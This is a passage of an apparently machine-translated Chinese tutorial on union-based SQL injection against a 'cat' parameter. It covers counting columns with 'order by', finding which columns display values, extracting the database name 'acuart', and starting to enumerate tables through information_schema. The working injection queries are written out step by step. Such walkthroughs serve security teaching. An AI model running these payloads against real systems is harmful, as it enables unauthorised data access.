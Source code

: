 *查询—某样东西 cat ='1 order by 11 —(忽略& rest)*

> ***注意:**根据数据库接受的值，如果数据库接受一个字符串值，您可能会得到一个数字 10(整数)的错误。因此，您可以使用`NULL`或`*null*`，它们将被接受为有效参数。因此，对 3 列的查询将变成`order by null, null, null--`。这里，为了简化查询，我使用数字，因为我们知道这是一个有效的参数。*

*5.现在，我们知道数据库中的*列*的数量是 11。我们将寻找可以读取的易受攻击的*列*。使用查询`union select 1,2,3,4,5,6,7,8,9,10,11--`。这将从易受攻击的*列*中检索详细信息。*

*参考下图，我们得到了数字:2，7 和 9。因此，*列* 2，7 & 9 易受 SQLi 攻击。*

*![](img/2eef56f88be87a842ee38bf6bff7d2e4.png)*

*query-something cat = ' 1 union select 1，2，3，4，5，6，7，8，9，10，11 —(忽略& rest)*

*6.现在，我们得到了易受攻击的*列* (2，7，9)。我们将使用它们来检索其他信息。首先是数据库名。使用查询`union select 1,database(),3,4,5,6,7,8,9,10,11 --`。这将反映数据库名称，而不是 2。或者使用查询`union select 1,2,3,4,5,6,database(),8,9,10,11--`。这将反映数据库名称，而不是 7。*

*![](img/6beaf833e71d6cbebe80e2a6aa3aa872.png)*

*查询— something cat ='1 union select 1，database()，3，4，5，6，7，8，9，10，11 —(忽略& rest)*

*我们得到了数据库名— **acuart。***

*7.现在，我们将尝试从 DB **acuart 中获取 *table_name* 。**使用查询`union select 1,table_name,3,4,5,6,7,8,9,10,11 from information_schema.tables where table_schema=database()--`。相应地修改列。*
